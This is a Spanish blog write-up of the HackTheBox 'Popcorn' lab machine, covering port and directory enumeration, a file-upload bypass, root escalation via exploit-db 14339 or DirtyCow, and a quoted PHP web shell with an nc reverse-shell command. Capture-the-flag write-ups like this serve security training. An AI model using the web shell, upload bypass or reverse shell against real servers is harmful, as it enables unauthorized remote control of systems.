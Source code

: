 ```yaml
---
layout: single
title: HackTheBox - Máquina Popcorn
excerpt: "Solución de la máquina Popcorn de Hack the Box."
date: 2021-04-18
classes: wide
header:
  teaser: /assets/images/htb/popcorn/popcorn.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Linux
  - Medium
---
```


<p align="center">
<img src="/assets/images/htb/popcorn/popcorn.png">
</p>

# Enumeración

```bash
nmap -p- --open -T5 -n -vvv 10.10.10.6 -oG allPorts
```

```bash
nmap -sC -sV -p22,80 10.10.10.6 -oN targeted
```

Y obtenemos:

```bash
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
```

# Explotación

Vamos a buscar directorios con wfuzz:

```bash
wfuzz -c -L --hc 404 --hh 177 -t 100 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.6/FUZZ
```

Obtenemos el directorio `/torrent` que contiene un sitio web de torrents y la posibilidad de registrar usuarios, una vez hemos registrado un usuario y hemos accedido a la aplicación, en la URL `http://10.10.10.6/torrent/torrents.php?mode=upload` nos permite subir un archivo .torrent. Una vez subido nos da la opción de editar la información del torrent y modificar la imagen del torrent. Vamos a subir una webshell a través de esta funcionalidad.

Creación del fichero shell.php:

```php
<?php
 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Para saltarnos la comprobación de las extensiones le cambiamos el nombre de `shell.php`a `shell.php.png`

Le damos a subir la shell pero tenemos que capturar la petición con Burpsuite para hacer tampering de la extensión:

<p align="center">
<img src="/assets/images/htb/popcorn/burpsuite.png">
</p>

Tenemos que cambiar **shell.php.png** por **shell.png** y enviar la petición, después tenemos que acceder a `<http://10.10.10.6/torrent/upload>` y abrir nuestro archivo php y mediante el parámetro cmd pasarle `?cmd=nohup nc -e /bin/bash 10.10.XX.XX 4444 &` y enviamos la petición.

En la máquina atacante tendremos la conexión establecida. (Haremos el tratamiento de la tty)

# Escalada de privilegios

En el directorio `george`vemos `home/george/.cache/motd.legal-displayed`, si hacemos una búsqueda por internet, encontramos el [exploit de github](https://www.exploit-db.com/exploits/14339)

Hacemos un `searchsploit -m 14339` (para moverlo a una carpeta) y con `xclip -sel clip` (lo copiamos al clipboard). En el directorio /tmp ó /dev/shm creamos un fichero llamado exploit.sh y pegamos el contenido, damos permisos de ejecución y lanzamos para conseguir una shell con permisos de root.

## Opcional: Dirty Cow

Se puede utilizar también [FireFart - DirtyCow](https://github.com/FireFart/dirtycow), para ello creamos un fichero `dirty.c` en `/tmp` ó `/dev/shm` y pegamos el código. Para compilarlo usamos:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Y este es el resultado:

<p align="center">
<img src="/assets/images/htb/popcorn/dirtycow.png">
</p>

